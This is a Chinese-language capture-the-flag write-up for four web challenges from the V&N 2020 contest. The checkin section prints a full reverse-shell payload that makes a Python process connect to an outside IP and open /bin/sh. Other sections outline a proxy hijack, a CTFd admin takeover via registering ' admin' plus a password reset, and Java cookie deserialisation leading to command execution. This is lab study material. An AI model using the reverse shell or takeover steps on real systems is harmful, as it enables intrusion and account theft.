checkin
1 | from flask import Flask, request |
命令执行操作，但是没有回显示，可以利用反弹shell。但是flag.txt文件已经被删除。
思路：在linux系统中只要文件被打开,/proc/self/fd/n就会有缓存
这里安利一篇文章：通杀漏洞利用回显方法-linux平台
1 | http://be8c5a4b-9e00-4024-a486-4f0ff7e7571f.node3.buuoj.cn/shell?c=python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22174.0.224.196%22,8899));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27 |

TimeTravle
1 |
|
简单审计：有文件读取操作和phpinfo信息泄露操作，但是拿到flag需要访问api，
读取本地docker文件
/start.sh
nginx+php且phpinfo显示利用cgi通信

读取/src/app.py,运行该api需要在2050年才能返回true.

竟然程序无法通过app.py获得true，还有思路是利用ssrf或者CRLF注入去访问该内网地址，该思路明显不行，执行访问操作已经嵌入在php代码中.
只能利用组件漏洞，劫持http://127.0.0.1:5000/api/eligible该地址，使之不走app.py通信.走你设置的服务器，访问后回显的json格式带{“sucess”:True}
这里的环境变量再被程序里的 GuzzleHttp 使用
链接：https://www.laruence.com/2016/07/19/3101.html

Linux Labs起个服务,写index.php

HappyCTFd
该题利用CTFd 1day漏洞
https://www.colabug.com/2020/0204/6940556/
https://github.com/CTFd/CTFd/commit/f660ed1fb769126a2d149c26645bbde457a5c616
账号注册逻辑中，接收用户名后验证身份，账户不存在则进行一次数据库写入操作。但是在写入数据库操作时，进行了一次strip()操作,所以创建用户时候添加空格就能够创建与数据库中相同的用户名.

但是这样仍然接管不了真正的admin账户.需要利用到重置密码漏洞
forgot_password方法中传入的team值通过email取出，为上一步恶意注册用户结果

跟进forgot_password方法,将用户名序列化token拼接到无用字符串中，发送到攻击者邮箱中.

之后攻击者访问邮箱收到的url地址，进入到token验证逻辑中.而后就能够直接修改admin账户密码


- 注册空格+admin
- 向你的邮箱中发送重置密码请求

-

修改密码后，访问settings成功得到admin管理账户

Backup => Export 获取flag

EasySpringMVC
java两种命令执行构造
1 | new processBuilder(cmd).start() |
jd-Gui打开war包
ClentinfoFilter能过对cookie反序列化,触发点为Tools.parse方法

在Tools类中，复写的readObject中调用ProcessBuilder能够触发命令执行.当readObject被定义为私有属性，在反序列化时候将被优先调用.
现在就是如何构造obj参数的问题，可以利用testCall可控作为传入参数.定义个settestCall方法.
https://blog.csdn.net/Leon_cx/article/details/81517603

设置cookie即可获得shell。这里还有一种方法是重写writeObject也能达到目的.


参考链接
https://cjm00n.top/2020/02/29/V-N%E5%85%AC%E5%BC%80%E8%B5%9B2020-writeup/?tdsourcetag=s_pctim_aiomsg
https://www.zhaoj.in/read-6407.html?tdsourcetag=s_pctim_aiomsg
https://glotozz.github.io/2020/03/02/V-N2020%E5%85%AC%E5%BC%80%E8%B5%9Bwp/#easyspringmvc